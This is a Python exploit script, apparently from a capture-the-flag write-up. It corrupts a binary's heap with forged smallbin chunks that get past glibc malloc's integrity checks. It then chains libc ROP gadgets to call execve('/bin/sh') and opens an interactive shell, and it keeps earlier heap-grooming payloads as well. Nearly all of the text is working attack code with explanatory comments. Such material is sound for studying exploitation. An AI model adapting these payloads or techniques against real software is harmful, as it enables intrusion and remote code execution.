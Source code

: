 ```py
payload2 += append_nulls(pck(HEAP_ADDR+0x2c980)) # bck1
payload2 += append_nulls(pck(0x400d3c)) # &shellcode
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(HEAP_ADDR+0x80)) # start of dtable, also &dtable
payload2 += append_nulls(pck(HEAP_ADDR+0x70)) # dtable: &shellcode (so +0x88 is &&shellcode)
payload2 += append_nulls(pck(0x0000000000007325)) # test format string: %s
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(0x4141414141414141)) # Just to get my bearings...
payload2 += append_nulls(pck(0xd2c)) # used during lookup, part of dtable
payload2 += append_nulls(pck(0x0))*2
# I have another 1864 bytes remaining to use on the stack.
#
payload2 += append_nulls(pck(0x0))*5 # The five return addresses I just used
payload2 += "aaaabbbb" # I just wanted to view this on the stack
#
# Start the second ROP chain here.
#
payload2 += append_nulls(pck(LIBC_BASE + POP_RDX_OFFSET))
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(LIBC_BASE + POP_RSI_OFFSET))
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(LIBC_BASE + POP_RDI_OFFSET))
payload2 += append_nulls(pck(HEAP_ADDR+0x10)) # pointer to "/bin/sh"
payload2 += append_nulls(pck(LIBC_BASE + CALL_EXECVE_OFFSET))
payload2 += "\n"
#
p.send(payload2)
p.interactive() # profit
####

##########################################################################################
#
# What follows are some old payloads from the part of this write-up where I was trying to
# figure out the heap corruption problem. I left it in the final, clean version of the code
# for posterity. Payload 2 below is the code to fit eight free-able fake smallbins into
# 200 bytes of space on the heap.
#
##########################################################################################
turtle_class_addr = 0x6014c0
payload = append_nulls(pck(turtle_class_addr))
payload += append_nulls(pck(0x21))
payload += append_nulls(pck(HEAP_ADDR+0x20)) # fake pointer forward to second chunk in order to
                                             # fool malloc's heap corruption check when allocating
                                             # the second chunk (happens second)
payload += append_nulls(pck(HEAP_ADDR+0x20)) # fake pointer back to the second chunk in order to finish
                                   # allocating the second chunk, setting bck->fwd = bin in malloc.c:3651.
payload += append_nulls(pck(0x150000000c)) # data for in-use second chunk
payload += append_nulls(pck(0x21))
payload += append_nulls(pck(HEAP_ADDR+0x60)) # second chunk points forward to fourth chunk, required
payload += append_nulls(pck(HEAP_ADDR)) # second chunk points back to first chunk, required
payload += append_nulls(pck(0x20)) # prev size for freed chunk
payload += append_nulls(pck(0x20)) # size of third chunk and second chunk is free
payload += append_nulls(pck(0x00))*2
payload += append_nulls(pck(0x1d0000000c)) # data for in-use first chunk (probably doesn't matter,
                                           # a lot of these chunks are old Objective-C classes that
                                           # haven't been drained because there's no NSAutoreleasePool)
payload += append_nulls(pck(0x21)) # size of fourth chunk and third is used
payload += append_nulls(pck(0x0)) # used to be a forward pointer to the second chunk,
```